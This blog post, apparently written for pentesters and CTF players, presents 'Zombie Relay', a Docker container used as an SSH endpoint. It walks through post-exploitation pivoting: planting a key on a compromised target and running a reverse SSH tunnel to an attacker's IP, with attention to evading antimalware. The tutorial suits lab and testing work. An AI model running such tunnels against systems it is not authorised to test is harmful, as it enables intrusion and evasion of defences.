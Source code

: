 ```yaml
---
layout: post
title: Zombie Relay - Temporary Docker container for Reverse SSH Tunneling
date: 2025-04-19
categories: [Cybersecurity, CTF, Pentest, Docker]
tags: [cybersecurity, docker, ssh, pentest, ctf]
---
```


![](/assets/images/zombierelay_banner_wb1.jpg)

📂 Repository: [Zombie Relay - Github](https://github.com/0xyy66/ZombieRelay)

It is not uncommon to find web services running only on the loopback interface while enumerating a system after gaining a foothold on it during a penetration test (or a CTF). How do you visit them if you don't have access to a browser on the remote host? If you accessed the target via SSH or got an instable reverse shell after exploiting some external service?

The answer to the aforementioned problem is **tunneling**: in simple terms, you set up a tunnel on the target that redirects traffic from your host to the interface and port hosting the local service.

There are various ways to achieve this, but my favorite is using **SSH** because it doesn’t require dropping executables on the target, which could potentially trigger any antimalware or endpoint protection system running on the target machine, even just due to a signature match.

If the target hosts an SSH server and you know some remote user's credentials, you don't need anything else than running the following command on your host.

```sh
ssh -L 8080:127.0.0.1:8080 user@target.htb -N -f
```

However, there are cases where you don't have credentials to access SSH or the target doesn't even have an SSH server running. What can you do then?

You can do it the other way around: make the target initiate an SSH connection to your machine hosting an SSH server, effectively creating a reverse tunnel from the target to your host.

Since giving access to your host to the target is not a good idea, I created **Zombie Relay**, a docker-compose script to build an Alpine container with an OpenSSH server installed. **Designed to die and rise again, just like a zombie**.

- Easy to setup
- Temporary
- Doesn't expose your host file system
- You don't need to drop any noisy executable on the target

## How it works

### Configuration - tuning your zombie

Before building the container, I suggest to take a look at the `docker-compose.yml` file. 

```yml
services:
  zombierelay:
    image: alpine:latest
    ports:
      - "2224:22"
      - "9090:9090"
```

By default only 2 ports are mapped:

- 2224:22 - exposes OpenSSH on your host on port 2224
- 9090:9090 - you will tunnel the remote service through port 9090 of the container and it will be available on port 9090 of your host.

**You can map as many ports as you need**, just append another line to ports (e.g. `- "80:8080"`).

### Raising a zombie

Spawning a Zombie Relay container is as easy as running `docker compose up`.

![](/assets/images/zombierelay_attacker_docker.png)

Everytime you create the container, the compose will automatically create a new private key. Drop it on the target to connect to the container.

Run the following command to copy the key from the container to your host.

```sh
docker cp $(docker ps -l -q):/root/.ssh/id_ed25519 .
```

### Tunnel the remote service to your host

For this part, I set up a Python HTTP server running on port 8080 **locally**. When a local user visits the website root, he receives the message "Internal service only".

![](/assets/images/zombierelay_victim_1.png)

It's now time to drop the zombie's private key on the target and tunnel the local service. Don't forget to **change the file's permissions to 600** (`chmod 600 id_ed25519`). 

Finally, run the ssh command to reverse tunnel the service.

```sh
ssh -i id_ed25519 -p 2224 -R 9090:127.0.0.1:8080 root@10.10.14.20 -N -f
```

In this case, I'm mapping the local service running on port 8080 to the Zombie Relay port 9090, which is mapped on my host on port 9090.

> In my docker-compose file the port is mapped as `8080:9090`

![](/assets/images/zombierelay_victim_2.png)

> The `-N` and `-f` flags, are useful to prevent spawning an SSH session on the container or leaving the remote shell suspended.

### Accessing the remote "internal service only" locally

Lastly, once the remote local service is tunneled to your host, open your browser and navigate to it via the mapped port (9090 in this case).

![](/assets/images/zombierelay_attacker_tunneled_service.png)

### Kill the zombie

Once you no longer need the relay, simply run the following command to stop and remove the latest container created.

```sh
docker stop $(docker ps -l -q) && docker rm $(docker ps -l -q)
```

> BEWARE: If Zombie Relay is not the most recent container created, the command will remove a different container. To avoid this, use the container's name instead (e.g., `zombierelay-zombierelay-1` if you cloned the repo).

## Conclusion

The relay is easy to set up, portable, and (hopefully) stealthier than dropping a binary on the target. A health check is in the works to help with connectivity issues. Suggestions and feedback are more than welcome.

📂 Repository: [Zombie Relay - Github](https://github.com/0xyy66/ZombieRelay)